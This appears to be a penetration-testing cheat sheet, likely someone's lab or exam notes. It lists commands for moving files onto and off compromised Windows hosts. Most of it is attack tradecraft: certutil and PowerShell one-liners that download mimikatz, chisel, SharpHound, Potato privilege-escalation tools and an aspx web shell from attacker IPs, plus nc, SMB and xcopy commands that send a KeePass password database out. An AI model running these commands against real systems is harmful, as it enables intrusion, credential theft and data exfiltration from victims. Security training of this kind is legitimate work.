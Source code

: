 # certutil
```bash
certutil -urlcache -split -f "http://192.168.45.170:1337/chisel64.exe" chisel64.exe
```

-----------------------

# powershell
```bash
iwr -uri http://192.168.45.159:1337/winPEASx64.exe -Outfile winPEASx64.exe
```

-----------------------

# Transfer files from window using nc
```bash
Get-Content "Database.kdbx" | .\nc.exe 192.168.45.239 5555
nc -l -p 5555 > myfile.txt
```

-----------------------

# Typical files to transfer
```bash
iwr -uri http://192.168.45.159:1337/ncat.exe -Outfile ncat.exe
iwr -uri http://192.168.45.159:1337/mimikatz64.exe -Outfile mimikatz64.exe
iwr -uri http://192.168.45.159:1337/chisel64.exe -Outfile chisel64.exe

iwr -uri http://192.168.45.159:1337/winpeas64.exe -Outfile winpeas64.exe
iwr -uri http://192.168.45.159:1337/privesccheck.ps1 -Outfile privesccheck.ps1
iwr -uri http://192.168.45.159:1337/SharpHound.exe -Outfile SharpHound.exe

iwr -uri http://192.168.45.159:1337/insomnia_shell.aspx -Outfile insomnia_shell.aspx
iwr -uri http://192.168.45.159:1337/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
iwr -uri http://192.168.45.159:1337/GodPotato-NET2.exe -Outfile GodPotato-NET2.exe
iwr -uri http://192.168.45.159:1337/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
iwr -uri http://192.168.45.159:1337/GodPotato-NET35.exe -Outfile GodPotato-NET35.exe
iwr -uri http://192.168.45.159:1337/JuicyPotatoNG.exe -Outfile JuicyPotatoNG.exe
```

-----------------------

# Other types of file transfer
```bash
(new-object System.Net.WebClient).DownloadFile("http://10.10.122.141/Script/mimikatz64.exe", "C:\TEMP\mimikatz64.exe")
```

-----------------------

# Start SMB server in Kali
```bash
impacket-smbserver smbfolder $(pwd) -smb2support -user sombi -password sombi 
impacket-smbserver -ip 192.168.45.177 -smb2support -username sombi -password sombi SombiShare files
```

-----------------------

# Start SMB server on windows
```bash
# Victim holding file
net share SharedFolder=C:\Path\To\Your\Folder /grant:Everyone,READ

# Connect from victim 2
\\<victim-holding-file-ip>\SharedFolder

# Delete when done
net share SharedFolder /delete

```
-----------------------

# user SMB server within the Windows machine (Powershell)
```bash
$pass = convertto-securestring 'sombi' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('sombi', $pass)
New-PSDrive -Name kali -PSProvider FileSystem -Credential $cred -Root \\192.168.45.245\SombiShare

cd kali:
copy kali:\PrintSpoofer64.exe C:\TEMP
copy kali:\ncat.exe C:\TEMP
copy kali:\SharpHound.exe C:\TEMP
```

-----------------------

# user SMB server within the Windows machine (Native Windows)
```bash
net use X: \\192.168.45.165\smbfolder /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
net use X: /delete
cd /d X:
```

-----------------------
# FTP
```bash
# In Kali
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 --write

# In windows
cd C:\Users\user\Desktop\Tools\Source
 ftp <attacker-ip> 
anonymous
put windows_service.c
```
